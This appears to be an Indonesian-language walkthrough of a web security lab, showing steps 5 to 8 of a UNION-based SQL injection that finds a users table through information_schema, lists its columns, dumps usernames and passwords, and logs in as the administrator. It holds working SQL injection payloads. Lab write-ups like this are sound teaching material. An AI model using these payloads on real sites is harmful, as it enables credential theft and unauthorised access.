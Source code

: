 5. Cari table users.
   <img width="1919" height="1135" alt="image" src="https://github.com/user-attachments/assets/65b176a3-19ae-4731-b731-632622f8d9a9" />
   Tabel user yang digunakan di sini adalah `users_uostcm`

6. Cari seluruh nama kolom yang ada di tabel user dengan menggunakan payload `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_uostcm'--`
   <img width="1919" height="1133" alt="image" src="https://github.com/user-attachments/assets/24746679-d34c-47fa-901b-fb931b72860f" />
   Hasil:
   <img width="1919" height="1131" alt="image" src="https://github.com/user-attachments/assets/8a9b9ec1-86ed-4f5c-9b42-725f2760a543" />
   Nama kolom username dan password adalah `username_qtgmxa` dan `password_weqdqm`.

7. Lihat seluruh username dan password pada tabel user dengan menggunakan payload `'+UNION+SELECT+username_qtgmxa,+password_weqdqm+FROM+users_uostcm--`
   <img width="1919" height="1081" alt="image" src="https://github.com/user-attachments/assets/8f69749d-51fe-4e4d-83e6-2e3dbb137f2c" />
   Password dari user `administrator` adalah `568uz0at9q5u9x5l0dxg`.

8. Login sebagai user `administrator` dengan credential yang didapatkan.
   <img width="1919" height="1137" alt="image" src="https://github.com/user-attachments/assets/6478579e-3a09-4b1f-aa5c-649d8e9582b6" />


## Catatan
Di soal ini, karena query SQL belum diketahui, maka harus dicari terlebih dahulu jumlah kolomnya.

Dengan adanya tabel `information_schema` yang menunjukkan informasi terkait seluruh tabel di database, ada banyak petunjuk yang dapat digunakan untuk mendapatkan credential tertentu (dalam kasus ini, user `administrator`).
